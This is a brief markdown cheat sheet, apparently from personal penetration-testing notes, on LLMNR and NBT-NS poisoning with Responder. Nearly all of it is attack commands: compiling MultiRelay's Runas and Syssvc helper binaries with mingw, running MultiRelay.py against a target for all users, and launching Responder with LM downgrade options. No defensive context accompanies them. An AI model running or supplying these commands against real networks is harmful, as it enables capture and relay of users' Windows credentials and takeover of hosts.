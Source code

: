 # LLMNR and NBT-NS poisonning
### Responder
1. Set up `MultiRelay.py`
   * _`rm /usr/share/responder/tools/MultiRelay/bin/Runas.exe` - in case it doesn't work initially
   * _`rm /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe` - in case it doesn't work initially
   * `x86_64-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
   * `x86_64-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`
   * `python3 /usr/share/responder/tools/MultiRelay.py -t <target> -u ALL`</br>
      - where `-u ALL` -> users
2. Run `Responder`
   * `responder -I <interface> -rdwv --lm`


## Cool resources
